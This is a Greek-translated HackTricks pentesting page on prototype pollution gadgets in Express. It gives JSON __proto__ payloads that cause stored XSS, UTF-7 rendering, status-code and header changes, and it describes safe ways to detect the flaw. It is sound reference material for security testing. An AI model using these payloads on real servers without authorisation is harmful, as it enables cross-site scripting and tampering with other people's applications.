 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Serve XSS responses

**Για περισσότερες λεπτομέρειες** [**ρίξτε μια ματιά στην αρχική έρευνα**](https://portswigger.net/research/server-side-prototype-pollution)

### Change JSON content-type to HTML

Σε μια εφαρμογή Express που χρησιμοποιεί **JSON content type response** και ανακλά ένα JSON:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
Σε αυτές τις περιπτώσεις, το XSS δεν είναι συνήθως δυνατό με τύπο περιεχομένου JSON. Ωστόσο, με την μόλυνση πρωτοτύπου μπορούμε να **μπερδέψουμε το Express ώστε να εξυπηρετήσει μια HTML απάντηση.** Αυτή η ευπάθεια βασίζεται στη χρήση του **`res.send(obj)`** από την εφαρμογή και στη χρήση του body parser με τον τύπο περιεχομένου application/json.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
Με την **ρύπανση** των ιδιοτήτων **`body`** και **`_body`**, είναι δυνατόν να προκαλέσουμε **την Express να σερβίρει τον τύπο περιεχομένου HTML** και να ανακλά την ιδιότητα `_body`, με αποτέλεσμα αποθηκευμένο XSS.

### Απόδοση UTF7

Είναι δυνατόν να κάνουμε την express **να αποδώσει περιεχόμενο UTF-7 με**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Safe Scanning Techinques

### JSON spaces

Η παρακάτω PP θα προσθέσει ένα επιπλέον διάστημα στα χαρακτηριστικά μέσα σε ένα JSON που δεν θα σπάσει τη λειτουργικότητα:
```json
{"__proto__":{"json spaces": " "}}
```
Τότε ένα αντανάκλαση JSON θα φαίνεται έτσι:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

Ο παρακάτω PP gadget θα κάνει τον διακομιστή να στείλει πίσω την HTTP κεφαλίδα: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
Απαιτείται η **εγκατάσταση του CORS module**

### **Μέθοδος OPTIONS**

Με το παρακάτω payload, είναι δυνατόν να **κρυφτεί μια μέθοδος από μια απάντηση OPTIONS**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Κατάσταση**

Είναι δυνατόν να αλλάξετε τον **κωδικό κατάστασης που επιστρέφεται** χρησιμοποιώντας το παρακάτω PP payload:
```json
{"__proto__":{"status":510}}
```
### Σφάλμα

Όταν αναθέτετε σε ένα πρωτότυπο με μια πρωτογενή τιμή όπως μια συμβολοσειρά, παράγει μια **λειτουργία no-op καθώς το πρωτότυπο πρέπει να είναι ένα αντικείμενο**. Εάν προσπαθήσετε να αναθέσετε ένα αντικείμενο πρωτοτύπου στο `Object.prototype` αυτό θα **ρίξει μια εξαίρεση**. Μπορούμε να χρησιμοποιήσουμε αυτές τις δύο συμπεριφορές για να **ανιχνεύσουμε αν η ρύπανση του πρωτοτύπου ήταν επιτυχής**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Reflected Value

Όταν μια εφαρμογή περιλαμβάνει ένα αντικείμενο στην απάντησή της, η δημιουργία ενός χαρακτηριστικού με ένα **ασυνήθιστο όνομα μαζί με το `__proto__`** μπορεί να είναι διαφωτιστική. Συγκεκριμένα, αν **μόνο το ασυνήθιστο χαρακτηριστικό επιστρέφεται** στην απάντηση, αυτό θα μπορούσε να υποδηλώνει την ευπάθεια της εφαρμογής:
```json
{"unusualName":"value","__proto__":"test"}
```
Επιπλέον, σε σενάρια όπου χρησιμοποιείται μια βιβλιοθήκη όπως το Lodash, η ρύθμιση μιας ιδιότητας τόσο μέσω της ρύθμισης πρωτοτύπου (PP) όσο και άμεσα μέσα στο αντικείμενο προσφέρει μια άλλη διαγνωστική προσέγγιση. Εάν μια τέτοια ιδιότητα παραλειφθεί από την απόκριση, υποδηλώνει ότι το Lodash επαληθεύει την ύπαρξη της ιδιότητας στο στοχευόμενο αντικείμενο πριν από τη συγχώνευση:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Allow Dots

Υπάρχει μια επιλογή στο Express που σας επιτρέπει να **δημιουργείτε αντικείμενα από παραμέτρους συμβολοσειράς ερωτήματος**.\
Μπορείτε σίγουρα να το χρησιμοποιήσετε σε μια **αλυσίδα** σφαλμάτων για να εκμεταλλευτείτε μια **ευπάθεια μόλυνσης πρωτοτύπου**.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` δημιουργεί ένα αντικείμενο στο Node.**

## Αναφορές

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
